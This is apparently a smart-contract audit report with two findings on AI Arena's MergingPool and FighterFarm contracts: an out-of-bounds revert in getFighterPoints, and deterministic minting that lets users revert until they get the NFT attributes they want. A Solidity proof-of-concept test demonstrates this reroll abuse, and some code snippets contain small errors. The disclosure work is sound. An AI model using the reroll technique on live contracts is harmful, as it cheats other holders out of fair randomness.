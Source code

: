 ## the `MergingPools::getFighterPoints` will revert when input is > 0

## Vulnerability details

The function attempts to fetch the points of fighters 0-maxId, but can actually only fetch the points of fighter id 0, because the length of the points array is set to 0. So if we input 1 it will revert with array out of bonds error

## Impact

The impact is not severe as this function is a view function that doesn't impact any logic in the contracts. The function will not display the different fighter points as expected

## POC

https://github.com/code-423n4/2024-02-ai-arena/blob/5b2ab9f9fadd0b91268ff6f22b4ae0fd5b79ec09/src/MergingPool.sol#L207-L211

```solidity
    function getFighterPoints(uint256 maxId) public view returns(uint256[] memory) {
 @>       uint256[] memory points = new uint256[](1);
        for (uint256 i = 0; i < maxId; i++) {
 @>         points[i] = fighterPoints[i];
        }
```

To prove this I slightly modified the `testGetFighterPoints()` in MegingPool.t.sol.

```
    function testGetFighterPoints() public {
        // owner mints a fighter by claiming
        _mintFromMergingPool(_ownerAddress);
        _mintFromMergingPool(_ownerAddress);
        _mintFromMergingPool(_ownerAddress);
        _mintFromMergingPool(_ownerAddress);
        _mintFromMergingPool(_ownerAddress);
        _mintFromMergingPool(_ownerAddress);
        _mintFromMergingPool(_ownerAddress);
        _mintFromMergingPool(_ownerAddress);
        address owner = _fighterFarmContract.ownerOf(0);
        assertEq(owner, _ownerAddress);

        // rankedeBattle contract adds points
        vm.startPrank(address(_rankedBattleContract));
        _mergingPoolContract.addPoints(0, 100);
        _mergingPoolContract.addPoints(1, 100);
        _mergingPoolContract.addPoints(2, 100);
        _mergingPoolContract.addPoints(3, 100);
        _mergingPoolContract.addPoints(4, 100);
        _mergingPoolContract.addPoints(5, 100);
        _mergingPoolContract.addPoints(6, 100);
        _mergingPoolContract.addPoints(7, 100);
        assertEq(_mergingPoolContract.totalPoints(), 100);
        // getFighterPoints for owners fighter
        uint256[] memory fighterPoints = _mergingPoolContract.getFighterPoints(8);
        // assertEq(fighterPoints.length >= 1 && fighterPoints[0] == 100, true);
        // getFighterPoints for non existent fighter
        // vm.expectRevert(stdError.indexOOBError);
        // _mergingPoolContract.getFighterPoints(1000);
    }
```

This test will revert with out of bounds array error.

## Mitigation route

In order to mitigate this issue I would modify the design of that function in such way:

```
    function getFighterPoints(uint256[] ids) public view returns(uint256[] memory) {
        uint256[] memory points = new uint256[](Ids.length);
        for (uint256 i = 0; i < ids.length; i++) {
            points[i] = fighterPoints[ids[i]];
        }
        return points;
    }

```  
This slight modification allows msg.sender to fetch the points of the fighters they specified in the array.


## Deterministic minting allows users to revert the transaction if the NFT attributes don't match their expectations

## Vulnerability details

Users can mint an NFT in several ways. Every mint will have physical attribute that will have different rarity, weight and element. The issue here is that if a user isn't pleased with any of these attributes the transaction can be reverted, and he can mint another time, and repeat this process until satisfied.

## Impact

The randomness is bypassed, user can mint desired object, decreasing their value.

## POC

Since the minting process happens in one transaction only, the whole process can be effectively reverted. The abuser can wait for other people to mint a few NFTs, and this will be enough to change the hash that will impact the minting.

```
            _createNewFighter(
                msg.sender, 
     @>         uint256(keccak256(abi.encode(msg.sender, fighters.length))),
                modelHashes[i], 
                modelTypes[i],
                i < numToMint[0] ? 0 : 1, 
                0,
                [uint256(100), uint256(100)]
```


```
        _createNewFighter(
            to, 
   @>       uint256(keccak256(abi.encode(msg.sender, fighters.length))), 
            modelHash, 
            modelType,
            0, 
            0, 
            customAttributes 
        );
```

Here is an actual implementation that an abuser would use:

```solidity 
 //FighterFarm.t.sol

    function testClaimFightersSelectWhatIwant() public {
        uint8[2] memory numToMint = [1, 0];
        bytes memory claimSignature = abi.encodePacked(
            hex"407c44926b6805cf9755a88022102a9cb21cde80a210bc3ad1db2880f6ea16fa4e1363e7817d5d87e4e64ba29d59aedfb64524620e2180f41ff82ca9edf942d01c"
        );
        string[] memory claimModelHashes = new string[](1);
        claimModelHashes[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";

        string[] memory claimModelTypes = new string[](1);
        claimModelTypes[0] = "original";

        // Right sender of signature should be able to claim fighter

        claimPackage(numToMint, claimSignature, claimModelHashes, claimModelTypes);
    }
    function claimPackage(uint8[2] memory numToMint, bytes memory claimSignature, string[] memory claimModelHashes, string[] memory claimModelTypes) public {
        _fighterFarmContract.claimFighters(numToMint, claimSignature, claimModelHashes, claimModelTypes);
        ( , ,FighterOps.FighterPhysicalAttributes memory physicalAttributes , , , , , ,) = _fighterFarmContract.fighters(0);
        uint256 head = physicalAttributes.head;
        require(head == 1, "head doesn't comply");
    }
```

## Mitigation

This issue is not easy to mitigate. I would consider going through a two step minting process, such as mint dna, have a delay, and then mint nft attribute. Although this transaction will still be revertable, it makes it harder to predict the outcomes, but it is still very possible.
Another more expensive alternative would be to use something like chainlink VRF.